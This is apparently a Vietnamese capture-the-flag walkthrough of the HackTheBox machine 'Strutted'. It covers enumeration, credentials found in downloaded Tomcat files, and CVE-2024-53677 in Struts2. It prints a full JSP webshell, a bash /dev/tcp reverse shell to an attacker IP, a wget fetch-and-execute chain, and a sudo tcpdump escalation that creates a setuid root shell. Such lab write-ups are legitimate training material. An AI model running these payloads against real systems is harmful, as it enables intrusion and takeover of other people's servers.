

# 1. Enumeration
Quét các cổng và dịch vụ của máy chủ đích 10.10.11.59.
```bash
┌──(root㉿lyquockhanh)-[~/Documents/HTB/Strutted]
└─# nmap -sC -sV 10.10.11.59 -oA Structted
```


Thêm tên miền strutted.htb vào file /etc/hosts
```bash
┌──(root㉿lyquockhanh)-[~/Documents/HTB/Strutted]
└─# echo "10.10.11.59 strutted.htb" | sudo tee -a /etc/hosts
```


Truy cập vào trang web


Thu thập thông tin về website , website được viết bằng ngôn ngữ java


Chỉ cho phép tải các file có định dạng JPG , JPEG , PNG , GIF! lên web 


Tải 1 ảnh đúng định dạng thì ảnh sẽ được lưu ở /uploads


Click download một file strutted.zip được tải về máy


Ta tìm thấy thông tin xác thực với vai trò quản lý , quản trị trong file tomcat-user.xml


Đọc file context.xml


Trong file pom.xml ta thấy  framework struts2 phiên bản 6.3.0.1


Ta tìm được phiên bản của Struts2 là 6.3.0.1
Ta tìm kiếm lỗ hổng về phiên bản Struts2  , ta biết được liên quan đến lỗ hổng CVE-2024-53677


Apache Struts là một framework mã nguồn mở phổ biến được sử dụng để xây dựng các ứng dụng web bằng Java. Nó đã tồn tại từ lâu và được nhiều tổ chức lớn sử dụng.

Về cơ bản, Struts cung cấp một tập hợp các công cụ và thành phần giúp việc phát triển ứng dụng web trở nên dễ dàng hơn, xử lý các tác vụ như nhập dữ liệu từ người dùng, xử lý dữ liệu, và hiển thị thông tin trên trình duyệt web. Hãy nghĩ về nó như một bộ khung (scaffolding) giúp lập trình viên xây dựng ứng dụng web một cách hiệu quả hơn
# 2. Exploit

Ta có webshell khai thác 

```bash
<%@ page import="java.io.*, java.util.*, java.net.*" %>
<%
    String action = request.getParameter("action");
    String output = "";

    try {
        if ("cmd".equals(action)) {
            // Execute system commands
            String cmd = request.getParameter("cmd");
            if (cmd != null) {
                Process p = Runtime.getRuntime().exec(cmd);
                BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));
                String line;
                while ((line = reader.readLine()) != null) {
                    output += line + "\n";
                }
                reader.close();
            }
        } else if ("upload".equals(action)) {
            // File upload
            String filePath = request.getParameter("path");
            String fileContent = request.getParameter("content");
            if (filePath != null && fileContent != null) {
                File file = new File(filePath);
                try (BufferedWriter writer = new BufferedWriter(new FileWriter(file))) {
                    writer.write(fileContent);
                }
                output = "File uploaded to: " + filePath;
            } else {
                output = "Invalid file upload parameters.";
            }
        } else if ("list".equals(action)) {
            // List directory contents
            String dirPath = request.getParameter("path");
            if (dirPath != null) {
                File dir = new File(dirPath);
                if (dir.isDirectory()) {
                    for (File file : Objects.requireNonNull(dir.listFiles())) {
                        output += file.getName() + (file.isDirectory() ? "/" : "") + "\n";
                    }
                } else {
                    output = "Path is not a directory.";
                }
            } else {
                output = "No directory path provided.";
            }
        } else if ("delete".equals(action)) {
            // Delete files
            String filePath = request.getParameter("path");
            if (filePath != null) {
                File file = new File(filePath);
                if (file.delete()) {
                    output = "File deleted: " + filePath;
                } else {
                    output = "Failed to delete file: " + filePath;
                }
            } else {
                output = "No file path provided.";
            }
        } else {
            // Unknown operation
            output = "Unknown action: " + action;
        }
    } catch (Exception e) {
        output = "Error: " + e.getMessage();
    }

    // Return the result
    response.setContentType("text/plain");
    out.print(output);
%>
```
Upload webshell lên



Đặt  vị trí webshell.jsp được tải lên


Sau khi upload thành công webshell tai truy cập vào đường dẫn chứa webshell

```bash
http://strutted.htb/WebShell.jsp?action=cmd&cmd=id
```


# 3. Foothold
Tạo 1 reverse shell cho dễ dàng tương tác với hệ thống.

Trên máy tấn công lắng nghe cổng 293
```bash
nc -lvnp 293
```
Khởi tạo 1 cổng http server trên máy tấn công 
```bash
python -m http.server 80
```


```bash
echo -ne '#!/bin/bash\nbash -c "bash -i >& /dev/tcp/10.10.16.46/293 0>&1"' > Exploit.sh
```


Mục tiêu : Tạo 1 máy chủ http chứa file Exploit.sh , trên web shell tải file Exploit.sh về hệ thống đặt ở thư mục /tmp và cấp quyền thực thi cho file Exploit.sh trong thư mục /tmp .
Thực thi file /tmp/Exploit.sh ta thu được reverse shell trên máy tấn công .

```bash
/WebShell.jsp?action=cmd&cmd=wget+http://10.10.16.46:80/Exploit.sh+-O+/tmp/Exploit.sh
```


```bash
http://strutted.htb/WebShell.jsp?action=cmd&cmd=ls+/tmp
```


```bash
http://strutted.htb/WebShell.jsp?action=cmd&cmd=chmod+777+/tmp/Exploit.sh
```


```bash
http://strutted.htb/WebShell.jsp?action=cmd&cmd=/tmp/Exploit.sh
```


Tìm người dùng trong hệ thống

Ta tim được username : james

 

Ta sử dụng mật khẩu trước đó tìm được trong file tomcat-users.xml để kiểm tra xem có thể lấy được quyền người dùng james không


Ta thành công lấy được shell hệ thống  với quyền jame
bằng cách kết nối từ xa

```bash
ssh james@strutted.htb
```


# 4.  Privilege Escalation
Kiểm tra quyền người dùng james hiện tại

```bash
sudo -l
```


Ta tìm kiếm cách nâng quyền bằng tcpdump ta tìm được :


https://gtfobins.github.io/gtfobins/tcpdump/
Ta dùng câu lệnh đọc được file /etc/passwd sau đó ta thử đọc file /root/root.txt và thành công nhận được flag root

```bash
COMMAND='cat /root/root.txt'
TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
```


Ta có thể nâng quyền lên quyền root bằng dùng câu lệnh 
```bash
COMMAND='cp /bin/bash /tmp/lqkhanh && chmod +s /tmp/lqkhanh'
TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
```
